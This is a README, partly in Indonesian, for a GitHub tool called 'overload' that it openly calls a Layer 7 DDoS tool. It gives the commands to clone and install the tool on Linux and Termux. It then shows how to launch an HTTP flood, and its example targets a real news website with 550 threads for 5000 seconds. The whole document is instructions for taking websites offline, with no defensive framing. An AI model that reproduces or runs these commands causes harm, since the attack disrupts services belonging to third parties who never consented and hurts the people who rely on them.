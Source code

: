 <h1 align="center">📡 DDOS Tool (Layer 7) </h1> 
<div align="center">
 
</div>


</p>


</p>

# 💻 Instalasi :




 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
$ sudo apt update
$ sudo apt install python3 python3-pip git -y
$ git clone https://github.com/7zx/overload
$ cd overload/
$ pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
$ pkg update
$ pkg install python3 python3-pip git -y
$ git clone https://github.com/7zx/overload
$ cd overload/
$ pip3 install -r requirements.txt
```

## ❓ Cara Penggunaan :
Perintah untuk dapat menjalankan tool adalah sebagai berikut :

```
python3 ddos.py --time XXX --threads XXX --target [URL] --method HTTP
```

Contoh :  

```
python3 ddos.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
